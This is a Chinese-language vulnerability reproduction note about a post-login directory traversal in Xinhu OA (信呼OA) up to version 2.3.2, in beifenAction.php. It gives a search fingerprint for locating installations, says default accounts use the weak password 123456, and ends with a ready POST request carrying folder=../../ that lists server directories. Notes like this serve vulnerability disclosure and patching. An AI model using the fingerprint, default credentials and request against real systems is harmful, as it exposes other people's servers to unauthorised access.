





# 信呼OA beifenAction.php 后台目录遍历漏洞

## 漏洞描述

信呼OA beifenAction.php文件中调用了 getfilerows方法，导致了目录遍历漏洞，攻击者通过漏洞可以获取服务器上的文件信息

## 漏洞影响

```
信呼OA <= 2.3.2
```

## 网络测绘

```
app="信呼协同办公系统"
```

## 漏洞复现

登录页面



其中默认存在几个用户存在弱口令 123456



存在漏洞的文件为 `webmain/system/beifen/beifenAction.php`



查看 `getfilerows()` 方法，在 `include/chajian/fileChajian.php`



该方法遍历目录下的文件名并输出，登录后，发送请求包

```
POST /index.php?a=getdatssss&m=beifen&d=system&ajaxbool=true

folder=../../
```

